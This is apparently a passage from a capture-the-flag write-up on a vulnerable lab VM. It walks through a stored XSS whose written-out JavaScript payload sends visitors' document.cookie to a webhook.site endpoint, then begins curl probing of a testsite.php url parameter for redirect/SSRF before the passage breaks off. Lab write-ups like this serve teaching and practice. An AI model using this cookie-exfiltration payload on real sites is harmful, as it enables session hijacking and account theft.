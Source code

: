 
So you have to re-install the VM each time you plan an XSS strategy else it gets filled with all the previous stuff you fuzzed it with.


It looks intentional (And very unsafe too).


Basically this looks like a very powerful form of XSS called <a href="https://portswigger.net/web-security/cross-site-scripting/stored">Stored XSS</a>, everyone who visits this link will get the XSS payload delivered... This is not good for the end user
but it's good for us :)


Let's craft an XSS payload that delivers the cookies to an endpoint (I used this exact method in HackTheBox's Cyber Apocalypse Web Kryptos Support Challenge, it's identical), webhook.site in this case


The payload I used is:

{{< highlight javascript >}}
<script>var xmlHttp = new XMLHttpRequest(); xmlHttp.open('GET', 'https://webhook.site/Random_UUID/ENDPOINT?variable='+document.cookie, false ); xmlHttp.send(null)</script>
{{< /highlight >}}

Let's wait a bit and...

![SanitizeInput](/images/ctfs/schneidelec/sanitize_input.png)


Bingo: <code>FLAG{sanitize_input}</code>


Let's jump to our next target; testsite.php

![TestSite](/images/ctfs/schneidelec/testsite.png)


Interesting... let's try to redirect ourselves somewhere... maybe localhost:1337 ?


The website redirects you if you input your tests, let's try using <code>curl</code>


I inspected the request using Firefox's Network Page in it's built in Inspector, and the textbox contents get appended to an HTTP Request variable named <code>url</code> accordingly, so let's start doing some requests, shall we?


{{< highlight bash >}}
$ curl "http://192.168.1.145/testsite.php?url=localhost" -w "\n"
{{< /highlight >}}


It returns us "Protocolo no permitido" (Prohibited protocol), we haven't *really* specified a protocol, let's try maybe... http?

{{< highlight bash >}}
$ curl "http://192.168.1.145/testsite.php?url=http://localhost" -w "\n"
{{< /highlight >}}

Now it outputs:
